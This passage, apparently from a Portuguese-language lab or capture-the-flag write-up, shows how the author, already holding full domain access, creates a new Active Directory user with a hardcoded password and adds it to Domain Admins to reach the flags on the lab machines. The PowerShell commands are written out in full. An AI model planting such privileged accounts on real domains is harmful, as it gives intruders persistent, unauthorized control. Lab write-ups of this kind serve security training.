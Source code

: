 Como tenho **acesso completo ao domínio**, para coletar as **FLAGS nas máquinas WORK1, WORK2 e JMP**, basta **criar um novo usuário no Active Directory**
```
New-ADUser -Name "reduser" -SamAccountName "reduser" `
-UserPrincipalName "reduser@bank.thereserve.loc" `
-GivenName "Red" -Surname "User" `
-AccountPassword (ConvertTo-SecureString "RedTeam123!" -AsPlainText -Force) `
-Enabled $true -ChangePasswordAtLogon $false
```

Em seguida, concedo privilégios administrativos adicionando o usuário ao grupo **Domain Admins**
`Add-ADGroupMember -Identity "Domain Admins" -Members reduser`

Com isso, o usuário `reduser` passa a ter **acesso total às máquinas do domínio**, permitindo logins via RDP, execução remota e coleta das informações necessárias.

# Nona Flag
![](img/57e5a457ac0533c949bc2e67b125df22.png)

# Décima Flag